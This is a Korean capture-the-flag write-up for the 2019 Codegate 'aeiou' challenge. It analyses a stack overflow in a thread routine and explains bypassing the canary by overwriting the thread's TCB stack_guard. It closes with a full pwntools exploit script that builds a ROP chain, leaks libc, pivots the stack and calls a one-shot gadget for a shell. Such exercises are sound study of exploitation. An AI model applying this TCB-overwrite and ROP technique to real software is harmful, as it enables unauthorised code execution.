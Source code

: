 ```yaml
---
title: "2019 Codegate aeiou"
date: 2020-1-9
ctf: Codegate CTF
layout: post
published : false
---
```


64bit 바이너리가 주어진다.

```
aeiou: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=1c2c4b1f2f26f776c18181389463bc18024091b4, stripped
```

보호기법은 Full RELRO, Canary, NX가 걸려있다.

```
[*] '/vagrant/ctfs/aeiou'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

`pthread_create` 함수로 스레드 생성해서 `start_routine` 함수를 실행해주는 부분이다.

```c
int sub_401507()
{
  int result; // eax
  pthread_t newthread; // [rsp+0h] [rbp-10h]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  pthread_create(&newthread, 0LL, start_routine, 0LL);
  result = pthread_join(newthread, 0LL);
  if ( result )
  {
    puts("oooooh :(");
    result = 1;
  }
  return result;
}
```

pthread_create Code : [Link](https://code.woboq.org/userspace/glibc/nptl/pthread_create.c.html)

pthread_create Description : [Link](https://www.joinc.co.kr/w/man/3/pthread_create)

`sub_400FF5` 함수를 보면 입력한 수를 atoi로 정수로 변환해서 v2에 저장한다. v2 버퍼 크기는 0x1000인데 0x1000이상을 입력할 수 있다. 또 그 크기만큼 `sub_401170` 함수에서 입력을 받는다. 근데 문제는 카나리가 걸려있다는 점이다. 

```c
void *__fastcall start_routine(void *a1)
{
  unsigned __int64 v2; // [rsp+8h] [rbp-1018h]
  char s; // [rsp+10h] [rbp-1010h]
  unsigned __int64 v4; // [rsp+1018h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  memset(&s, 0, 0x1000uLL);
  puts("Hello!");
  puts("Let me know the number!");
  v2 = sub_400FF5();
  if ( v2 <= 65536 )
  {
    sub_401170(0, &s, v2);
    puts("Thank You :)");
  }
  else
  {
    puts("Too much :(");
  }
  return 0LL;
}
```

`pthread_create` 함수에 쓰레드가 생성되면 이 쓰레드가 사용할 스택을 만들어주는데 이 쓰레드의 스택에 `stack_guard` 가 존재한다. 

```c
typedef struct
{
void *tcb; /* Pointer to the TCB. Not necessary the
thread descriptor used by libpthread. */
dtv_t *dtv;
void *self; /* Pointer to the thread descriptor. */
int multiple_threads;
uintptr_t sysinfo;
uintptr_t stack_guard;
uintptr_t pointer_guard;
} tcbhead_t;
```

TCB 구조체를 보면 `stack_guard` 영역은 `fs:0x28` Canary 영역의 값이다. `stack_guard` 와 Canary랑 비교하는데 Canary를 A로 쭉 덮고 stack_guard도 A로 쭉 덮으면 SSP를 우회할 수 있다.

TCB Overwrite : [Link](https://bases-hacking.org/tcb-overwrite.html)

익스는 간단하다. Canary를 A로 쭉 덮어주고 gadget들 이용해서 libc구해준다. stack pivoting으로 oneshot 날려주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
#context.log_level = 'debug'
e = ELF('./aeiou')
p = process('./aeiou')
libc = e.libc
prdi = 0x00000000004026f3 # pop rdi ; ret
prsi_r15 = 0x00000000004026f1 # pop rsi ; pop r15 ; ret
prbp = 0x0000000000400c70 # pop rbp ; ret
sla = lambda x,y : p.sendlineafter(x,y)
sl = lambda x : p.sendline(x)
s = lambda x : p.send(x)
bss = 0x00000000006040CA
leave_ret = 0x0000000000400d70 # leave ; ret

payload = 'A'*0x1008
payload += 'AAAAAAAA' # Canary
payload += 'AAAAAAAA'
payload += p64(prdi) + p64(e.got['system']) + p64(e.plt['puts'])
payload += p64(prdi) + p64(0) + p64(prsi_r15) + p64(bss) + p64(0) + p64(e.plt['read'])
payload += p64(prbp) + p64(bss-8)
payload += p64(leave_ret) 
payload = payload.ljust(0x2000,'A') # Canary dup

'''
payload = 'A'*0x1008
payload += 'realsung' # Canary
payload += 'AAAAAAAA'
payload += p64(prdi) + p64(e.got['puts']) + p64(e.plt['puts'])
payload += p64(prdi) + p64(0) + p64(prsi_r15) + p64(bss) + p64(0) + p64(e.plt['read'])
payload += p64(prbp) + p64(bss-8)
payload += p64(leave_ret) 
payload = payload.ljust(0x17e8,'A')
payload += 'realsung' # Canary
'''

sla('>>','3')
sl(str(len(payload)))
s(payload)

libc_base = u64(p.recvuntil('\x7f')[-6:] + '\x00\x00') - libc.symbols['system']
log.info('libc_base : ' + hex(libc_base))

sl(p64(libc_base + 0x4526a))

p.interactive()
```

